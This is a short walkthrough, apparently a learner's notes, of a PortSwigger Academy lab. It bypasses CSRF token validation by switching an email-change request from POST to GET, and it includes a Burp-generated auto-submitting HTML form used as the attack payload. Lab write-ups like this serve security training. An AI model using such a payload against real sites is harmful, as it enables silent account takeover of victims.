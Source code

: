 ![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/9dbbb300-cde7-4d78-ba88-30832fd88344)

### Solution

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/3acd90d8-a68b-4994-ab3a-f45e0fba9eb8)

we loggen in using the credentials, now update the email.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/69021f5f-9a10-4a36-907f-afa3bdca2a58)

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/e6041aea-4f6b-4c25-a95a-6718814b41dd)

Send the request to Burp Repeater and observe that if you change the value of the csrf parameter then the request is shown as rejected.

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/04fb218f-9fd8-4261-a532-002bc1dd50a1)

now we change the method from POST to GET

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/67b0b172-0a6a-4c48-9482-ed3441feb02c)

now it is succesfull

Right-click on the request, and from the context menu select Engagement tools / Generate CSRF PoC. Then change the email

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/ec73dc20-c419-4245-b93e-5cc3c5bc224d)

payload 

```js
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a26009f0392618f84e465c4008f00dd.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="rahul&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
Go to the exploit server, paste your exploit HTML into the "Body" section, and click "Store".

now viewing the exploit

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/c870daf9-de40-46e5-8175-7e808d9dc23d)

click deliver to solve the lab

![image](https://github.com/RahulMMenon011/PortSwigger_Labs/assets/140642506/d727b1f6-380a-4211-8d83-4557669a6fbd)

